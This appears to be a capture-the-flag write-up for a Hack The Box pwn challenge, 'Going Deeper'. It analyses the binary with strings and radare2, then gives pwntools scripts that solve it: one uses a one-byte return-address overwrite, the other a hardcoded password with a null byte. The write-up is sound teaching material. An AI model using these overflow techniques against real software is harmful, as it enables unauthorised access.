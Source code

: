 # Space pirate: Going Deeper
Now we're on to the second challenge in the "pwn" category. 

## Checking out the binary
Let's start the program first and see what we're dealing with.
![Intro Screen](img/going_deeper_intro.png)

Both option 1. and 2. request some kind of authentication from us, that we can't provide.
If just enter anything we get an error message and the program terminates
![Auth Fail](img/going_deeper_auth_fail.png)  

Maybe the password is just a string that's saved in the binary itself. Let's check with
```bash
cjreek@kali:~$ strings ./sp_going_deeper
```
We find a pretty suspicious string that might be the password we're looking for:
> ...  
> [\*] Username:  
> [!] Exiting..  
> **DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft**  
> %s[+] Welcome admin! The secret message is:   
> cat flag*  
> %s[-] Authentication failed!  
> ...  

![Fail and Segfault](img/going_deeper_auth_segfault.png)  
When we try, we not only get denied, but it seems like the password is already too big for the internal buffer and causes a buffer overflow with a resulting segmentation fault.

## Debugging and analyzing
Let's load up the binary in Radare2 and let's see what we can find there.
```bash
cjreek@kali:~$ r2 -d ./sp_going_deeper
```
First we analyze the binary
```
[0x00400b47]> aaa
```
Let's see what functions there are:
```lua
[0x00400b47]> afl
0x004007a0    1 43           entry0
0x004007e0    4 42   -> 37   sym.deregister_tm_clones
0x00400810    4 58   -> 55   sym.register_tm_clones
0x00400850    3 34   -> 29   sym.__do_global_dtors_aux
0x00400880    1 7            entry.init0
0x00400c10    1 2            sym.__libc_csu_fini
0x00400c14    1 9            sym._fini
0x004009e9   18 350          sym.admin_panel
0x004008dd    1 191          sym.banner
0x00400750    1 6            sym.imp.time
0x00400740    1 6            sym.imp.srand
0x00400790    1 6            sym.imp.rand
0x004006f0    1 6            sym.imp.puts
0x00400ba0    4 101          sym.__libc_csu_init
0x004007d0    1 2            sym._dl_relocate_static_pie
0x00400b47    1 84           main
0x0040099c    1 77           sym.setup
0x00400760    1 6            sym.imp.setvbuf
0x00400720    1 6            sym.imp.alarm
0x00400887    1 86           sym.read_num
0x00400730    1 6            sym.imp.read
0x00400770    1 6            sym.imp.strtoul
0x004006b8    3 23           sym._init
0x004006e0    1 6            sym.imp.strncmp
0x00400700    1 6            sym.imp.system
0x00400710    1 6            sym.imp.printf
0x00400780    1 6            sym.imp.exit
```
It's time to switch to visual mode
```
[0x00400b47]> V
```
and navigate to the debugging view by pressing ``p`` twice  
Now we navigate to the ``main`` function by opening the command line with ``Shift+:`` and then
```
:> s main
```
We immediately see a call to ``sym.admin_panel`` where the code of the menu options seem to be contained. Let's go there with ``s sym.admin_panel``
By following both the 1. and 2. options 
![Menu Assembly](img/going_deeper_menu.png)
we finally end up at the code that reads and checks our password input 
![Password Check](img/going_deeper_pw_check.png)

If we take a look at the code we can see 3 potential ways to get to the flag:
1. We change the the value of ``c`` from 3 to 0x1337beef
2. We override the return address to jump right to the code that prints the flag
3. We pass the correct password as input

Let's overflow the buffer and see how the stack looks before and after the overflow, to see what is and is not possible.
We see that ``read()`` reads up to 57 bytes from stdin. Let's put a breakpoint right before and after the call to ``read()`` to look at the stack before and after we overflow the buffer:
```
:> db 0x00400aba
:> db 0x00400abf
```
restart the program with the command ``doo`` and hit ``F9`` to continue execution.  
Select either 1. or 2. in the menu. We hit our first breakpoint and we can take a look at our stack: 
![Stack before](img/going_deeper_stack_before.png)
We can see the three values (``a``, ``b`` and ``c``) that are checked before the password itself is checked (purple) and we can discover the return address (0x400b94) of ``admin_panel`` (red)

 Let's hit F9 to continue execution and enter the maximum amount of characters (57)
````
[*] Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
````
Now we should hit the 2nd breakpoint. Let's look at the stack again:
![Stack after](img/going_deeper_stack_after.png)

As we can see ``a``, ``b`` and ``c`` are untouched by the buffer overflow. So there is at least no direct way to change those values and get access to the flag that way.  
But the return address gets overwritten by the buffer overflow - or at least the least significant byte of the return address.
That should be good enough though, because the code printing the flag (0x00400b**12**) is not too far away from the original return address (0x400b**94**)

## Writing the exploit
So now we are ready to write our exploit

````python
from pwn import *

r = process("./sp_going_deeper")

# navigate to one of the login options
r.sendline(b"1")
r.recvrepeat(0.1)

# send payload to jump the code printing the flag at 0x00400b12
payload = b"A"*56 # put anything for the first 56/57 bytes
payload += b"\x12" # change one byte of the return address to point to the system() call printing the flag
r.sendline(payload)
r.interactive()
````

Now if we execute that script we get the flag:

> [+] Starting local process './sp_going_deeper': pid 1735681  
> [*] Switching to interactive mode  
>  
>  [-] Authentication failed!
>  
> [!] For security reasons, you are logged out..  
>  
> HTB{f4k3_fl4g_4_t35t1ng}  
>  
> [!] For security reasons, you are logged out..  
>  
> [*] Got EOF while reading in interactive  
> $   

## An alternative way
So what about passing the right password to the programm so it prints the flag voluntarily?  
We tried that already at the beginning when we found the password with the ``strings`` tool, but it didn't work.
But why did it not work? It's the same password the programm is checking for in the code:
![Strncmp](img/going_deeper_strncmp.png)  
There is a catch. The password "DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft" is 51 characters long, but strncmp is told to compare 52 characters.
The 52. character of the string constant the code is comparing our input to is a null byte (\x00) because c-strings are terminated with a null byte.
The 52. character of our input is actually a new line character (\n or \x0a). So that's why the comparison fails.
But there is nothing preventing us from sending a null byte right after the password with pwntools.
So let's try if that works:

````python
from pwn import *

r = process("./sp_going_deeper")

# navigate to one of the login options
r.sendline(b"1")
r.recvrepeat(0.1)

# send password with trailing null byte
payload = b'DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft\x00'
r.sendline(payload)
r.interactive()
````

And for a fact it actually works as well:
> [+] Starting local process './sp_going_deeper': pid 1740782  
> [*] Switching to interactive mode  
>   
> [+] Welcome admin! The secret message is: HTB{f4k3_fl4g_4_t35t1ng}  
>  
> [!] For security reasons, you are logged out..  
>  
> [*] Got EOF while reading in interactive  
> $  
